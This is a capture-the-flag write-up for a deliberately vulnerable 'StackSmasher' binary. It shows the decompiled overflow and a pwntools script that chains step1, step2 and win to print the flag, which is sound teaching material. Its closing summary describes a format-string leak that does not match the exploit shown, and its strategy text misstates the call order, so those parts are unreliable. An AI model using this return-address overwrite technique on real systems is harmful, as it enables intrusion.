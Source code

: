 # StackSmasher - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/StackSmasher.gif)

---

## Challenge Summary

The StackSmasher binary contains a buffer overflow vulnerability in the func() function, where user input is read into a 32-byte buffer, but 128 bytes are allowed. This allows an attacker to smash the stack and control the program's execution. The goal is to exploit this vulnerability to call the win() function, which prints the flag stored in the FLAG_VAL environment variable.

To achieve this, we must bypass the checks in the win() function by calling step1 and step2 in the right order to make the condition true and trigger the flag output.

## Binary Information

```bash
$ file StackSmasher
```

![Alt text](img/2.png)

```bash
$ checksec StackSmasher
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
int func()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%s", "Input username:");
  read(0, buf, 0x80uLL);
  return printf("Your name is %s", buf);
}
```

![Alt text](img/4.png)

- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
int win()
{
  int result; // eax
  const char *s; // [rsp+8h] [rbp-8h]

  s = getenv("FLAG_VAL");
  result = first;
  if ( first )
  {
    result = second;
    if ( second )
      return puts(s);
  }
  return result;
}
```

![Alt text](img/5.png)

- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```
